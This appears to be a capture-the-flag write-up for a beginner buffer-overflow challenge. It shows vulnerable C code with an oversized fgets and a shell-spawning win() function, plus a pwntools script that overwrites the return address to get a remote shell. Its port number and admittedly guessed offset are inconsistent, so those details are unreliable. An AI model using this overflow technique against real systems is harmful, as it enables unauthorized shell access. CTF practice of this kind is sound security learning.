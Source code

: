## runway1 [60 pts]

**Category:** beginner-pwn
**Solves:** 217

## Description

Starting to ramp up!

nc challs.pwnoh.io 13400 

### Solution

Checking the source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <fcntl.h>
#include <sys/sendfile.h>

int win() {
    printf("You win! Here is your shell:\n");

    system("/bin/sh");
}

int get_favorite_food() {
    char food[64];

    printf("What is your favorite food?\n");
    fflush(stdout);

    fgets(food, 100, stdin);

    printf("Hmmm..... %s...", food);
}

int main() {
    int rand_num;

    srand(time(0));
    rand_num = rand() % 100;

    get_favorite_food();

    if (rand_num <= 50) {
        printf("That sounds delicious!\n");
    } else if (rand_num <= 70) {
        printf("Eh, that sounds okay.\n");
    } else if (rand_num <= 80) {
        printf("That's my favorite food too!\n");
    } else if (rand_num <= 90) {
        printf("I've never tried that before!\n");
    } else if (rand_num <= 100) {
        printf("Ew! I would never eat that.\n");
    }

    return 0;
}
```

it's just a simple buffer overflow, we need to overflow buffer and overwrite Return address to `win` method address.

```python
from pwn import *

# Set up pwntools to interact with the binary
binary = './runway1'  # Replace with your binary's name
elf = context.binary = ELF(binary)

# Find the address of the win() function
win_address = elf.symbols['win']

# Start the binary process
# p = process(binary)
p = remote('challs.pwnoh.io', 13401)

# Get the offset using cyclic patterns
offset = 76  # Assuming 76 is the offset (based on buffer size, this is likely correct)

# Build the payload
payload = b'A' * offset  # Padding to reach return address
payload += p64(win_address)  # Overwrite return address with win() function address

# Send the payload
p.recvuntil('What is your favorite food?')
p.sendline(payload)

# Interact with the shell
p.interactive()
```

And we get a shell and can read flag from it.